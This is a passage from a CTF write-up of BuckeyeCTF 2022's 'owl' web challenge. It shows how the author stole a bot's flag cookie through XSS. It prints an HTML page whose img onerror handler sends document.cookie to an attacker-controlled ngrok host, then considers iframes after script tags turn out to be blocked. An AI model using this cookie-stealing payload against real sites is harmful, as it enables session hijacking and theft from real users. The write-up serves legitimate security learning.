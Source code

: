 Now, we can try to send a URL to the `owl` Discord bot:

![](https://github.com/siunam321/CTF-Writeups/blob/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104233819.png)

But how do we get the flag cookie??

**We can do this via a [XSS cookie stealer payload](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md#inject-the-xss-attack-code):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104234421.png)

**Let's copy that and modify our `index.html` in `/owl`!**
```
┌──(root🌸siunam)-[~/…/BuckeyeCTF-2022/Web/owl/owl]
└─# cat index.html 
<html>
<title>Test</title>
<body>
	<p>Owl here</p>
	<img src=x onerror="this.src='http://360c-{Redacted}.ap.ngrok.io/owl/?'+document.cookie; this.removeAttribute('onerror');">
</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104234517.png)

This time, we see it returns `hoooot hoot hoot hoot hoot hoot`, which means it included a cookie.

> Note: The reason why I didn't have the `<script>` tag is because of the `fly()` function.

**Hmm... Since the `<script>` tag is blocked, maybe we can try to use the `<iframe>` tag???** 
